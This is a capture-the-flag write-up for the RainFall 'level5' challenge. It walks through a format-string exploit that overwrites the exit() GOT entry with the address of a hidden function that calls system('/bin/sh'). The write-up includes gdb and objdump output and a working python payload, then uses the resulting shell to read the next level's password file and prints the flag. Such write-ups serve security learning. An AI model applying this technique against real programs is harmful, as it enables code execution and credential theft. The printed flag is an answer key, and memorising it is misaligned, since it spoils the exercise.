 # Level5

## Analysis

You can find the decomp of the level [here](./level5_decomp.c). `main()` calls a function `n()` which uses `gets()` and `printf()`. There is also a funcion `o()` which isn't called but which contains a call to `system("/bin/sh")`.

We might be able to replace one of the `exit()` call!

## Exploit

```bash
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb)
```

When using GDB we can use `disas n` to get the asm of `n()` which will give us the address of plt exit. Now this address isn't what we're looking for since it's the address that points to another function that jumps to the real `exit()` as you can see when we disas the address of `exit@plt`.

Now `0x8049838` is the address we want to modify! 

To find the address we want to jump to, we will need to find the address of `o()` with `objdump -d level5`:

```bash
080484a4 <o>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       83 ec 18                sub    $0x18,%esp
 80484aa:       c7 04 24 f0 85 04 08    movl   $0x80485f0,(%esp)
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt>
 80484b6:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>
```

`080484a4` to decimal is `134513828`, this is what we need to write to our address!

Now to find the address offset where we need to write, we'll use the same concept as the previous exerices:

```bash
level5@RainFall:~$ ./level5                            
AAAA %x %x %x %x 
AAAA 200 b7fd1ac0 b7ff37d0 41414141 
```

"AAAA" is written at the fourth offset as we can see with the "41414141"

## Payload

This is what our payload will look like:

`[address] + [adress to write as padding - 4 (addr bytes)] + [stack offset]`

<details>
  <summary>Spoiler</summary>

   `python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' > /var/crash/tmp.txt`

   134513828 (which is the decimal representation of the address of `o()`) now becomes 134513824. The reason being that printf counts the first 4 bytes that we wrote (the address of `exit@plt`) in its total written bytes, hence why we remove 4 to correctly write "134513828" at the correct adress. You can't see them when you `cat` the file, but you can see them using `xdd` and notice that they are indeed present (which makes perfect sense). When you cat the file, you get this `8%134513824x%4$n`, however printf receives `\x38\x98\x04\x08%134513824x%4$n` to interpret. 

  We will write using the same trick as before `[offset$n]` which will write to the fourth address in the stack (which should be our first printf argument so the address):

  ```bash
  level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' > /var/crash/exploit
  level5@RainFall:~$ cat /var/crash/exploit - | ./level5
  ```

  And we will be greeted a prompt:

  ```bash
  whoami
  level6
  cat /home/user/level6/.pass
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
  ```
</details>

## Flag

d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31